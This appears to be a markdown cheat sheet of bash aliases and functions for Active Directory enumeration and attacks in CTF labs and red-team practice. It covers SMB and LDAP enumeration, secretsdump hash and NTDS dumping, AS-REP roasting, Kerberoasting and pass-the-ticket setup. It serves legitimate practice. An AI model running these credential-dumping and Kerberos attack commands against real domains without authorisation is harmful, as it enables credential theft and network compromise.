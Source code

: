 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#cheatsheet"
  - "#active-directory"
  - "#ctf"
  - "#windows-enumeration"
  - "#security"
  - "#network-security"
  - "#programming"
  - "#python-scripting"
  - "#opensource"
  - "#red-team"
  - "#penetration-testing"
description:
author:
created: Sunday, June 29th 2025, 12:44:04 am
source:
title: Page 2 - AD
date modified: Sunday, June 29th 2025, 12:44:14 am
---
```


# Page 2 - AD

**Active Directory (AD)-related aliases** for CTF players doing **Windows domain enumeration**, **Kerberos abuse**, **SMB attacks**, and **privilege escalation**. These are particularly useful for **internal AD labs**, **HTB Active Directory boxes**, and **Red Team simulations**.

---

## 🏢 Active Directory Enumeration & Attacks

```bash
# 🔎 SMB & NetBIOS
smbshare() { smbclient -L "\\\\$1\\" -N; } # Usage: smbshare <target>
smbconnect() { smbclient "\\\\$1\\$2"; } # Usage: smbconnect <target> <share>
smbuser() { smbclient -L "\\\\$1\\" -U "$2"; } # Usage: smbuser <target> <user>
alias smbshare='smbclient -L //TARGET -N'
alias smbconnect='smbclient //TARGET/SHARE'
alias smbuser='smbclient -L //TARGET -U'
alias enum4='enum4linux-ng -a'
enumuser() { enum4linux -u "$1" -p "$2" -a "$3"; } # Usage: enumuser <username> <password> <target>
alias crackmap='crackmapexec smb'
alias smbmap='smbmap -H'
alias nbtscan='nbtscan -r TARGET_SUBNET'

# 🧠 LDAP & Kerberos
alias kerbrute='~/tools/kerbrute/kerbrute'
alias ldapenum='ldapsearch -x -H ldap://TARGET -s base'
alias adenum='python3 ~/tools/ADEnum/ADEnum.py'
bloodhound() { bloodhound-python -u "$1" -p "$2" -dc-ip "$3" -c all; } # Usage: bloodhound <user> <password> <dc_ip>

# 🗂️ Password & Hash Dumping
secretsdump() { secretsdump.py "$1/$2:$3@$4"; } # Usage: secretsdump <domain> <user> <password> <target>
dumpntds() { secretsdump.py -just-dc "$1/$2:$3@$4"; } # Usage: dumpntds <domain> <user> <password> <dc_ip>
alias hashgrab='impacket-secretsdump'
ridbrute() { rpcclient -U "" "$1" -N -c "enumdomusers"; } # Usage: ridbrute <target>

# 📜 Kerberos Ticket Attacks
asreproast() { GetNPUsers.py "$1/" -usersfile "$2" -no-pass -dc-ip "$3"; } # Usage: asreproast <domain> <users.txt> <target>
kerberoast() { GetUserSPNs.py "$1/$2:$3" -dc-ip "$4" -request; } # Usage: kerberoast <domain> <user> <password> <target>
alias tgt='klist'
renewtgt() { kinit "$1@$2"; } # Usage: renewtgt <username> <domain>
alias ptt='export KRB5CCNAME=FILE:/tmp/krb5cc_1337 && export KRB5_CONFIG=~/krb5.conf'
alias renewtgt='kinit USERNAME@DOMAIN'
ptt() {
  export KRB5CCNAME="FILE:/tmp/krb5cc_$(uuidgen || date +%s)"
  export KRB5_CONFIG="${HOME}/krb5.conf"
  echo "[+] KRB5CCNAME set to: ${KRB5CCNAME}"
}

# 🛠️ Tools & Shortcuts
alias cme='crackmapexec'
impacket() {
  cd ~/tools/impacket && source venv/bin/activate
}
alias blood='cd ~/tools/BloodHound && neo4j console'
alias neo4jstart='sudo systemctl start neo4j'
alias neo4jstop='sudo systemctl stop neo4j'

# 🪓 Attack Chains
kerbcheck() { nmap --script "krb5-enum-users" -p 88 "$1"; } # Usage: kerbcheck <target>
noauthrpc() { rpcclient -U "" -N "$1"; } # Usage: noauthrpc <target>
authrpc() { rpcclient -U "$1%$2" "$3"; } # Usage: authrpc <user> <password> <target>

# 📚 Active Directory Cheatsheets
alias adhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/active-directory-methodology'
alias privhelp='xdg-open https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation'
```

---

## ✅ Additional Tools Recommended

Make sure you have the following tools installed (some aliases reference them):

- [Impacket](https://github.com/SecureAuthCorp/impacket)
    
- [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)
    
- [Kerbrute](https://github.com/ropnop/kerbrute)
    
- [BloodHound + Neo4j](https://github.com/BloodHoundAD/BloodHound)
    
- [Enum4linux-ng](https://github.com/cddmp/enum4linux-ng)
    
- [ldapsearch (OpenLDAP)](https://linux.die.net/man/1/ldapsearch)
    
- [rpcclient (Samba)](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html)

---

## 📥 Install and Activate

To include these in your setup:

### 1. Add to `~/.ctf_aliases` or `.bashrc`/`.zshrc`

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Then Source It:

```bash
source ~/.ctf_aliases
```

---

## 🧠 Learn More

- [HackTricks: Active Directory](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology)
    
- [PayloadsAllTheThings – Windows & AD](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/Active%20Directory%20Attack%20Cheatsheet)
    
- [Red Team Notes by RastaMouse](https://rastamouse.me/)
